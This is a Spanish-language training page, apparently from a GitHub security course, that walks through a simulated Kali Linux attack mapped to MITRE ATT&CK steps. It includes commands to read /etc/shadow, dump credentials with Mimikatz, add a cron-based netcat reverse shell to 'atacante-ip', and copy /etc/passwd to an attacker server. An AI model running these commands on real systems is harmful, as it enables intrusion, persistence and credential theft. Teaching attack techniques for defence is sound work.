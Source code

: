 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Aplicación Práctica en Kali Linux: Simulación de Ataques con MITRE ATT&CK**

Vamos a realizar una práctica utilizando herramientas de Kali Linux para simular ataques documentados en MITRE ATT&CK.

### **📌 Escenario: Movimiento Lateral y Robo de Credenciales**

Un atacante ha obtenido acceso a una máquina y quiere moverse lateralmente y obtener credenciales.

### **📌 Paso 1: Enumeración del Sistema (Tactic: Discovery - T1082)**

Ver información del sistema comprometido:

```bash
uname -a
whoami
id
```

### **📌 Paso 2: Robo de Credenciales (Tactic: Credential Access - T1003)**

Si el atacante tiene acceso root, puede extraer credenciales:

```bash
cat /etc/shadow
```

O con `Mimikatz` en Windows:

```bash
Invoke-Mimikatz -DumpCreds
```

### **📌 Paso 3: Movimiento Lateral con SSH (Tactic: Lateral Movement - T1021.004)**

Si el atacante ha obtenido credenciales, puede intentar moverse lateralmente:

```bash
ssh usuario@victima-ip
```

### **📌 Paso 4: Persistencia con Tareas Cron (Tactic: Persistence - T1053.003)**

Agregar una tarea cron maliciosa para mantener acceso:

```bash
echo "* * * * * /bin/bash -c 'nc -e /bin/bash atacante-ip 4444'" >> /etc/crontab
```

### **📌 Paso 5: Exfiltración de Datos (Tactic: Exfiltration - T1041)**

Transferir archivos fuera del sistema comprometido:

```bash
scp /etc/passwd atacante@servidor:~/datos-robados/
```



![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)